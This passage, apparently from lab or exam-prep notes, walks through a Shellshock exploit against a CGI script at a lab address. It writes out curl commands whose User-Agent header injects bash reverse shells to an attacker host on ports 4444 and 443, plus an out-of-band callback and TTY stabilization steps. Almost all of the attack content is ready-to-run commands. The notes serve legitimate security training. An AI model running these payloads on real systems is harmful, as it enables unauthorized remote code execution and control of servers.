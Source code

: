 ```bash
# 🟩 T2 (Trigger from Kali)
curl -s -H 'User-Agent: () { :;}; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"' \
  http://10.10.10.56/cgi-bin/user.sh
```

* **Why:** Executes Bash through vulnerable CGI header.
* **Mistake:** Forgetting `Content-Type` header → 500 errors.
  ✅ Fix: add `echo Content-Type: text/plain; echo;` inside the payload when needed.

---

### 1.3 Alternative reverse shell (port 443)

```bash
# 🟦 T1
rlwrap -cAr nc -lvnp 443
# 🟩 T2
curl -s -H 'User-Agent: () { :;}; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.5/443 0>&1"' \
  http://10.10.10.56/cgi-bin/user.sh
```

* **Why:** Some firewalls block port 4444, but allow 443 (HTTPS).

---

### 1.4 OOB (Out-of-Band) Canary

```bash
# 🟦 T1
python3 -m http.server 8000

# 🟩 T2
curl -s -H 'User-Agent: () { :;}; /bin/bash -c "curl http://10.10.14.5:8000/pwned"' \
  http://10.10.10.56/cgi-bin/user.sh
```

* **Why:** If reverse shell fails, this confirms **code execution** by seeing an HTTP request hit your listener.
* **Mistake:** Many candidates drop the Shellshock exploit when no shell returns.
  ✅ Fix: OOB check proves execution is happening, so you can adjust payload/port.

---

## 2) TTY Stabilization

**What it is:** Raw reverse shells are broken (no backspace, no job control). You need a “real” shell.
**Why it matters:** Without TTY, privesc and interactive commands fail.

### 2.1 Upgrade steps (order matters)

```bash
# 🟧 REMOTE
python3 -c 'import pty; pty.spawn("/bin/bash")' || /bin/sh -i

# Suspend with Ctrl+Z → back to 🟦 T1
stty raw -echo; fg
# then press Enter

# Back in 🟧 REMOTE
export SHELL=/bin/bash
export TERM=xterm-256color
stty rows 50 cols 120
whoami; id; tty
```
